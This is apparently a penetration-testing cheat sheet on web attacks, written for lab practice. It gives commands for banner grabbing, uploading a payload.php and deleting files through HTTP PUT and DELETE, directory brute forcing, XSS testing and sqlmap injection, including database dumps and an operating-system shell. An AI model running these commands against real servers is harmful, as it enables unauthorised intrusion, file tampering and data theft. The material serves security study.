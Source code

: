 ```yaml
---
description: Web application vulns and exploits
---
```


# Web Attacks

## Banner grabbing

### Netcat \(for HTTP services\) <a id="netcat-for-http-services"></a>

```text
nc -v 10.10.10.10 port
HEAD / HTTP/1.0
```

### OpenSSL \(for HTTPS services\) <a id="openssl-for-https-services"></a>

```text
openssl s_client -connect 10.10.10.10:443
HEAD / HTTP/1.0
```

### Httprint <a id="httprint"></a>

```text
httprint -P0 -h 10.10.10.10 -s /usr/share/httprint/signatures.txt
```

## HTTP Verbs <a id="http-verbs"></a>

`GET, POST, HEAD, PUT, DELETE`

### PUT is used to upload a file to the server <a id="put-is-used-to-upload-a-file-to-the-server"></a>

You have to find the size of the file you are uploading first

```text
wc -m payload.php
[size] payload.php
```

```text
nc 10.10.10.10 80
PUT /payload.php
Content-type: text/html
Content-length: [size]

```

### DELETE is used to delete a file from the server <a id="delete-is-used-to-delete-a-file-from-the-server"></a>

```text
nc 10.10.10.10 80
DELETE /path/to/file.txt / HTTP/1.0
```

### OPTIONS is used to query the webserver for enabled HTTP Verbs <a id="options-is-used-to-query-the-webserver-for-enabled-http-verbs"></a>

```text
nc 10.10.10.10 80
OPTIONS / HTTP/1.0
```

## Directory and File scanning <a id="directory-and-file-scanning"></a>

### Dirbuster <a id="dirbuster"></a>

![Dirbuster](https://gblobscdn.gitbook.com/assets%2F-M_9npUfU_wpKvUX_GaB%2F-MagR4YPOWTFD_15vHvL%2F-MahfUhT53l7HHnpBBge%2Fdirbuster.png?alt=media&token=61b8043d-946f-4850-884f-0fb38c3ae4d7)

### dirb <a id="dirb"></a>

```text
dirb http://10.10.10.10/
```

**If Webpage is authenticated**

```text
dirb http://10.10.10.10/ -u <username>:<password>
```

1. You can choose different wordlists for the dictionary brute force but from my experience in most labs you can find them in the `common.txt`
2. You can also choose different extensions but _`php`_ and _`bak`_ will be the most useful ones to find.
3. If there is HTTP authentication or login of some other kind for the webpage you can set the creds using \[Options -&gt; Advanced Options -&gt; Authentication options\]
4. The con with Dirbuster is that it sometimes freezes which is a real bummer otherwise it's real good.

## Google Dorks <a id="google-dorks"></a>

`site:   
intitle:   
inurl:   
filetype:   
AND, OR & |   
-`

​[GHDB](https://www.exploit-db.com/google-hacking-database) for more resources.

## XSS \(Cross-Site Scripting\) <a id="xss-cross-site-scripting"></a>

1. Find a reflection point
2. Test with HTML tag \(&lt;h1&gt;Test&lt;/h1&gt;\)
3. Test with JS code \[alert\('XSS'\)\]

XSS filter bypass cheatsheet: [OWASP cheatsheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)​

**Reflected XSS**: Payload is carried inside the request the victim sends to the website. Typically the link contains the malicious payload.

**Persistent XSS**: Payload remains in the site that multiple users can fall victim to. Typically embedded via a form or forum post.

## SQL Injections <a id="sql-injections"></a>

### GET <a id="get"></a>

```text
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id
```

```text
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U
```

### Database USER <a id="database-user"></a>

```text
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U --user
```

### Databases <a id="databases"></a>

```text
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U --dbs
```

### Dump all <a id="dump-all"></a>

```text
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U --dump
```

### POST <a id="post"></a>

Find the parameters that are being passed in POST using BurpSuite.   
E.g: **`username=some&password=thing`** where the parameter username is vulnerable.

```text
sqlmap -u 'http://10.10.10.10/login.php' --data='username=some&password=thing' -p username --technique=B
```

**The Databases, Users and dump-all switches are the same as for the GET parameter.**

If you aren't able to deduce which parameter is vulnerable in POST, you can drop the -p switch. SQLMAP will try to test them and find them on its own so don't sweat it and also for most of the prompts use the default options\(i.e. just press enter\).

The --technique switch is to create less noise and prevent the service from shutting down due to query overload. If the given techniques do not work try it removing the switch.

### OS-Shell <a id="os-shell"></a>

```text
sqlmap -u "http://10.10.10.10/login.php" --os-shell
```

### SQL-Shell <a id="sql-shell"></a>

```text
sqlmap -u "http://10.10.10.10/login.php" --sql-shell
```

